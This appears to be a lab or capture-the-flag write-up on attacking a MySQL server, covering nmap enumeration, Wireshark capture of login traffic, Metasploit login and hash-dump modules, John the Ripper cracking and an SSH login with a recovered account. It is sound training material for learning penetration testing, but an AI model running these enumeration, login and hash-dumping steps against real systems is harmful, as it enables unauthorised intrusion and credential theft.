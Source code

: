 # MySQL

MySQL is an open-source relational database management system (RDBMS) that uses a language called SQL (Structured Query Language) to perform tasks like adding, updating, and querying data. MySQL is widely used for websites and applications, is known for being fast and reliable, and works on different operating systems.

![Pasted image 20241003122935](https://github.com/user-attachments/assets/e5d42868-e3d4-42b4-9dd1-a942e1d92bf8)

Below is a view at the conversation between client and server:

![Pasted image 20241003123018](https://github.com/user-attachments/assets/ff3078a3-b693-4c73-b472-87c6c452d738)

The process works like this: MySQL creates a database to organize data in tables, clients send requests using SQL statements, and the server responds with the requested information.

### Scope:


### Tools and Technology:
Linux, Nmap, Wireshark, MySQL, Metasploit, and John the Ripper

## Enumerating MySQL :
![Pasted image 20241003124855](https://github.com/user-attachments/assets/db6e2d27-aab5-4ac6-b7d6-cebb58c8d301)

Enumeration is the process of discovering and gathering information about network services, hosts, and their configurations. There are many tools that can be used to enumerate. Here I will be using nmap and Metasploit. 

First, I used nmap to see what information I could gather from the target:

```
nmap -A 10.10.137.40 -nvvv
```

![Pasted image 20241003125145](https://github.com/user-attachments/assets/b6683923-409c-46e8-b9d9-a6598d0ed836)

Based on the output, I see that port 22 (SSH) and port 3306 (MySQL) are both open. I can also see information on the OS and the MySQL version that is running on the host. 

> [!IMPORTANT]  
> Version 5.x is susceptible to a user enumeration attack due to different messages during login when using old authentication mechanism from versions 4.x and earlier.

I then used one of the scripts included with nmap to enumerate MySQL:

```
nmap -p 3306 --script=mysql-enum  10.10.137.40 -nvvv
```

![Pasted image 20241003125810](https://github.com/user-attachments/assets/f5b14bf4-8305-4db6-9fc8-f40164af24a6)

Based on the output, I was able to see the list of valid usernames. 

## Wireshark:

![Pasted image 20241003132213](https://github.com/user-attachments/assets/2da4f9b4-8a19-4c67-bbad-b6378ecd38f1)

While enumerating MySQL, I also had Wireshark running to view the network traffic generated with the scan:

![Pasted image 20241003130529](https://github.com/user-attachments/assets/3be37a48-f294-4ac0-9f68-55d8291deabe)

Wireshark also shows version: 5.7.29, Ubuntu 18.04.1. Also, taking a closer look at one of the packets, I could see information on root and the password:

![Pasted image 20241003130425](https://github.com/user-attachments/assets/bb29feff-64f0-4ca9-9b3d-4b67aeec79fa)

Another observation about the traffic generated was the many connections that never established and had a short duration:

![Pasted image 20241003131447](https://github.com/user-attachments/assets/23904ef3-0b23-46f9-ab26-48f983c21771)

Another observation was the error response 1043 as seen below:
![Pasted image 20241003131314](https://github.com/user-attachments/assets/89dc25a9-c835-42d8-b3f7-3b636c62149e)

A closer look at the error:

![Pasted image 20241003131055](https://github.com/user-attachments/assets/7f009dfa-78d7-4192-a257-22dcc20601a8)

> [!IMPORTANT]  
> There are common errors related to MySQL:
> + Error 1043: Often related to using the wrong protocol or an incompatible version.
> + Error 1045: Typically due to incorrect username or password.
> + Error 2002: Indicates that the MySQL server is not responding or cannot be found.
> + Error 1146: Usually means that the pecified table does not exist in the database.

## MySQL Client:

![Pasted image 20241003132047](https://github.com/user-attachments/assets/4fd85a84-f4dd-48c9-9078-02ea74e3be64)

Another tool to use is the MySQL client. Although I did not use it, these is the command needed to install MySQL client:

```
sudo apt install default-mysql-client
```

![Pasted image 20241003130002](https://github.com/user-attachments/assets/e164d2c0-88fa-407a-9486-bece70f5b3cb)

Next, I needed to connect to the MySQL server. I used the following command to specify the hostname of the MySQL server:

```
mysql -h 10.10.137.40 -u root -p "password"
```

# Metasploit:




![Pasted image 20241003132013](https://github.com/user-attachments/assets/146172de-0367-4580-a533-618019a14fb9)



# mysql_version:


The mysql_version module, as its name implies, scans a host or range of hosts to determine the version of MySQL that is running.

```
use auxiliary/scanner/mysql/mysql_version
show options
set RHOSTS 192.168.1.200-254
set THREADS 20
 run
```


### Scanner MySQL Auxiliary Modules:




![Pasted image 20241003140152](https://github.com/user-attachments/assets/a29999ec-2daa-4f7a-b7aa-aee0750a4646)

```
use auxiliary/scanner/mysql/mysql_login
show options
set PASSWORD password
set RHOSTS 10.10.137.40
 set USERNAME root
  run

```


![Pasted image 20241003140121](https://github.com/user-attachments/assets/7ad9f83d-7766-457a-809c-cd5b54d7e815)

### Found remote MySQL version 5.7.29

5.7.29-0ubuntu0.18.04.1


![Pasted image 20241003135235](https://github.com/user-attachments/assets/f401a1bc-f174-4086-87ba-182a08fb0ffa)


![Pasted image 20241003135217](https://github.com/user-attachments/assets/7e9a1046-8cdc-415c-99a3-68450304fc79)


```

set SQL show databases
run
```


![Pasted image 20241003140442](https://github.com/user-attachments/assets/aac492e5-ab4b-464c-8312-ff9c76e02308)



![Pasted image 20241003140525](https://github.com/user-attachments/assets/c37587b3-c779-4405-986d-4e52d198434a)



# Exploiting MySQL:

 
 At this point, I was able to gain more sensitive information than just database names:

I know that :

 MySQL server credentials
 The version of MySQL running
 The number of Databases, and their names.


# Loading mysql_hashdump :


auxiliary/scanner/mysql/mysql_hashdump 


![Pasted image 20241003143211](https://github.com/user-attachments/assets/e0c232ad-5e27-45a8-8d1f-5a65e27c3d07)

```

set PASSWORD password
set USERNAME  root
set RHOTS 10.10.137.40

```

![Pasted image 20241003144109](https://github.com/user-attachments/assets/b3e71609-32e2-4725-8e8d-4f0c34a87bc1)


# John the Reaper:


![Pasted image 20241003145245](https://github.com/user-attachments/assets/b36c1cdc-2c3c-4577-8133-3451a333cda9)


Cracking hashes with John:


1. Copy all the hashes to a document.

![Pasted image 20241003143819](https://github.com/user-attachments/assets/21b5a4ff-fe4f-43a4-904e-f456e21e04bd)


john sql_hasdump.txt


![Pasted image 20241003144501](https://github.com/user-attachments/assets/351dc81e-9087-4306-b3db-88ef14a57c8a)


ssh carl@10.10.137.40


![Pasted image 20241003144429](https://github.com/user-attachments/assets/920c8bd5-4e75-4d64-88cd-ca77503f2d9b)

